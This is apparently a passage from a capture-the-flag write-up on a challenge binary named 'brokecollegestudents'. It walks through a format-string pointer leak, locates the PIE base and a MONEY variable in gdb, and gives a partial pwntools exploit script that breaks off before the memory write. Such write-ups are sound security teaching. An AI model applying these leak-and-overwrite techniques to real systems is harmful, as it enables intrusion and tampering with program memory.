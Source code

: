 So we know the base address is `0x556adb578000` and the leaked pointer is `0x556adb57992d`. Quick math: `0x556adb57992d - 0x556adb578000
6445` . I ran the binary multiple times and this `%23$016llx` pointer always ended up being 6445 bytes away from the binary base address. So now we know how to locate our PIE base address.

Next we want to know where in memory is money stored? To do this I attached a debugger to the process and looked at the `display_money()`function.

```shell
$ gdb -p $(pidof brokecollegestudents)
gdb-peda$ disass display_money
Dump of assembler code for function display_money:
   0x0000556adb579393 <+0>:     endbr64 
   0x0000556adb579397 <+4>:     push   rbp
   0x0000556adb579398 <+5>:     mov    rbp,rsp
   0x0000556adb57939b <+8>:     mov    eax,DWORD PTR [rip+0x2c7b]        # 0x556adb57c01c <MONEY>
   0x0000556adb5793a1 <+14>:    mov    esi,eax
   0x0000556adb5793a3 <+16>:    lea    rdi,[rip+0xca7]        # 0x556adb57a051
   0x0000556adb5793aa <+23>:    mov    eax,0x0
   0x0000556adb5793af <+28>:    call   0x556adb579110 <printf@plt>
```

There it is, `MONEY` is at `0x556adb57c01c`.  That is `0x556adb57c01c - 0x556adb578000 = 16412` away from the base address. I checked a few times and its always there so we have a reliable way to locate our money.

Next we need to overwrite money. Pwntool's helps here, this is the first exploit I tried:

```python
from pwn import *

host, port = "143.198.184.186", 5001

local = True

binary = context.binary = ELF('./brokecollegestudents')

if local:
    p = process('./brokecollegestudents')
else:
    p = remote(host,port)

ptrbaseoffset = 6445 # base is 6445 less than the leaked pointer
moneyoffset = 16412  # money offset is baseaddr+16412

# leak a pointer and calculate base address and money address
p.recvuntil(b'Choice: ')
p.sendline(b'1')
p.recvlines(8)
p.sendline(b'1')
p.recvuntil(b'CHOOSE: ')
p.sendline(b'1')
p.recvuntil(b'name: ')
p.sendline(b'%23$016llx')
p.recvlines(2)
leak = p.recvline().decode()[0:16]

# Calculate base and money addresses.
base = int(leak,16)-6445
money = base+moneyoffset

log.info('leaked base address: %x' % base)
log.info('money location: %x' % money)

# write a bunch of money
# our fmt string is 6th on the stack
```